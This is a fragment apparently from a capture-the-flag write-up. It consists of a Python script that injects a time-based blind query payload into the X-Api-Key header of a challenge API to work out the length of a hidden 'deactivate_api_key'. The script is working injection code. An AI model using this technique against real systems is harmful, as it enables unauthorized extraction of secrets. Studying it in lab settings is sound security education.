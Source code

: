 ### Guessing length of value for ***attribute deactivate_api_key***

```python
import requests
import time

# Define the target URL and headers
url = 'https://api.frostbit.app/api/v1/frostbitadmin/bot/83270120-3b1c-41f3-b25b-deaa5b5d1327/deactivate?debug=true'
headers = {
    'Host': 'api.frostbit.app',
    'X-Api-Key': ""  # Placeholder for the payload
}

# Function to test the length of the 'deactivate_api_key' value
def test_value_length(value_length):
    print(f"Testing length of value for 'deactivate_api_key': {value_length}...")

    # Construct the payload to check the length of the value
    payload = f"' OR LENGTH(doc.deactivate_api_key) == {value_length} ? SLEEP(2) : 'a"
    headers['X-Api-Key'] = payload

    start_time = time.time()  # Record the start time of the request
    response = requests.get(url, headers=headers)
    elapsed_time = time.time() - start_time  # Calculate response time

    if elapsed_time >= 2:  # If response is delayed by 2 seconds, it means the length is correct
        print(f"Found value length: {value_length}")
        return True
    return False

# Function to determine the length of 'deactivate_api_key' value
def find_value_length():
    for length in range(1, 40):  # Test lengths from 1 to 40 (adjust range as needed)
        if test_value_length(length):
            return length
        time.sleep(0.5)  # Small delay to avoid overwhelming the server

    return None  # If length is not found in the specified range

# Main function
if __name__ == "__main__":
    print("Starting to find the length of 'deactivate_api_key' value...\n")
    
    value_length = find_value_length()  # Find the length of the value for 'deactivate_api_key'
    
    if value_length:
        print(f"\nLength of 'deactivate_api_key' value: {value_length}")
    else:
        print("\nFailed to determine the length of the 'deactivate_api_key' value.")

```
